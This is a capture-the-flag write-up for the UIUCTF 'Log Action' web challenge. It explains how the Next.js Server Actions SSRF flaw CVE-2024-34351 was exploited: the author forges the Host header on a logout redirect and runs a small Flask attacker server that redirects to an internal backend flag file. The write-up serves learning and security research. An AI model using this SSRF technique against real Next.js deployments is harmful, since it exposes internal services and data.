

- Challenge name: Log Action
- Author: Minh
- Description: 
I keep trying to log in, but it's not working :'(
http://log-action.challenge.uiuc.tf/
- Solves: 105
- Key: uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
- Solver: `Flex` in `SpeedBambooFox`

# Overview

In this challenge, we are dealing with a website set up using Docker compose, with Next.js as the frontend.

## Provides files

The provides files `log-action.zip` have the following file structure:

```
./log-action
├── backend
│   └── flag.txt
├── docker-compose.yml
└── frontend
    ├── .gitignore
    ├── Dockerfile
    ├── entrypoint.sh
    ├── next-env.d.ts
    ├── next.config.mjs
    ├── package-lock.json
    ├── package.json
    ├── postcss.config.mjs
    ├── src
    │   ├── app
    │   │   ├── admin
    │   │   │   └── page.tsx
    │   │   ├── global.css
    │   │   ├── layout.tsx
    │   │   ├── login
    │   │   │   └── page.tsx
    │   │   ├── logout
    │   │   │   └── page.tsx
    │   │   └── page.tsx
    │   ├── auth.config.ts
    │   ├── auth.ts
    │   ├── lib
    │   │   └── actions.ts
    │   └── middleware.ts
    ├── tailwind.config.ts
    └── tsconfig.json
```

# Exploration

## Checking the Website

The web page given in the challenge contains only some simple text and a clickable text `here`, as shown below:


After clicking `here`, a page with two inputs appears, one of which is for `Username`, and the other is for `Password`.


After typing, we will find the text `Something went wrong`.


After my initial inspection of the site, I didn't find anything interesting, so I turned to researching the files given by the challenge.

## Checking the given file

After checking the given file, I realized this is the source code of the site in the challenge, and in the `backend` folder, I found `flag.txt`, which should be where the flag is located, then I started looking for any way to access `flag.txt`.

After a bit of searching, I realized attack the login function didn't really help in finding flags. After thinking about it for a while, since I have experience in writing websites using the Next.js framework, it occurred to me that Next.js is a server-side rendering web framework, so I look for any vulnerabilities that would help me to access the server-side to get `flag.txt`.

Then I found `CVE-2024-34351`, which was discovered in May of this year, and it was fixed in Next.js `v14.1.1`, and I found that the Next.js version of the source code is `14.1.0`, the following is a detailed introduction to the vulnerability:

> A Server-Side Request Forgery (SSRF) vulnerability was identified in Next.js Server Actions. If the Host header is modified, and the below conditions are also met, an attacker may be able to make requests that appear to be originating from the Next.js application server itself. An attacker is able to read the full HTTP response when successfully exploiting this SSRF issue.
>
> and conditions are:
> - A server action is defined;
> - The server action redirects to a URL starting with /;
> - We are able to specify a custom Host header while accessing the application.

Then I found this article, `https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps`, which has a detailed description of how this vulnerability is exploited and how it works.

As mentioned in this article, if the redirect starts with / (for example, a redirect to /login) the server will fetch the result of the redirect _server side_, then return it. Then I inspect the source code provided in the challenge, some pages do use the redirect() function and the redirect url starts with '/',  such as the logout page:


We can utilize the logout page, when we click the `Log out` button, the website will redirect to `/login`, then we can forge a host header pointing to our attacker server endpoint. 

When our attacker server receive any `HEAD` request, return a response with the header `Content-Type: text/x-component`, and when our attacker server receive `GET` request, return a redirect response to the flag location, we can use a URL like `http://backend/flag.txt` to access files in nginx container built with docker.  

# Exploit

Here's a modified version of a Flask example taken from the above article:
``` python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

```

Once we have set up our attacker server, we click on the button and use Burp Suite to change the `Host` and `Origin` in the request header to our attack host:


Then, we can get the flag in the challenge via reponse:


# References

- https://github.com/azu/nextjs-CVE-2024-34351/tree/main
- https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps